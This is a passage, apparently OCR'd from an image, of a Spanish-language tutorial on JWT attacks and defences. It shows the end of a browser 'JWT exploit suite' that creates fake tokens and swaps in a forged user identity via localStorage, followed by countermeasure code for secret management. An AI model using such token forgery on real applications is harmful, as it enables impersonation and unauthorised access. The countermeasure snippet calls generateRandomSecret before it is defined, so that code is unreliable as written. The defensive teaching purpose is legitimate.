```javascript
    localStorage.setItem('user', JSON.stringify(selectedToken.user));
    
    console.log(`🔄 Cambiado a identidad forjada: ${selectedToken.user.username}`);
    console.log("🔄 Recarga la página para usar la nueva identidad.");
  }
};

// Ejecutar suite completo
console.log("🚨 INICIANDO JWT EXPLOIT SUITE");
jwtExploitSuite.analyzeCurrentToken();
jwtExploitSuite.createMultipleFakeTokens();

// Para usar: jwtExploitSuite.switchToFakeToken(0);
```

### 🛡️ **Contramedidas**

#### **1. Gestión Segura de Secretos**
```javascript
// Configuración segura de JWT
const JWT_CONFIG = {
  secret: process.env.JWT_SECRET || generateRandomSecret(),
  algorithm: 'HS256',
  accessTokenExpiry: '15m',
  refreshTokenExpiry: '7d'
};

// Generar secret aleatoria si no está en entorno
const generateRandomSecret = () => {
  if (typeof crypto !== 'undefined' && crypto.getRandomValues) {
    const array = new Uint8Array(32);
    crypto.getRandomValues(array);
    return Array.from(array, byte => byte.toString(16).padStart(2, '0')).join('');
  }
  throw new Error('No secure random generator available');
};

// ✅ NUNCA exponer secret en respuestas
export const getSystemInfo = async (): Promise<SystemInfo> => {
  // ... validaciones
  
  return {
    server: 'Application Server',
    database: 'JSON Storage',
    users_count: usersDatabase.length,
    version: '1.0.0',
    // ❌ NUNCA incluir: jwt_secret, private_keys, passwords
  };
};
```
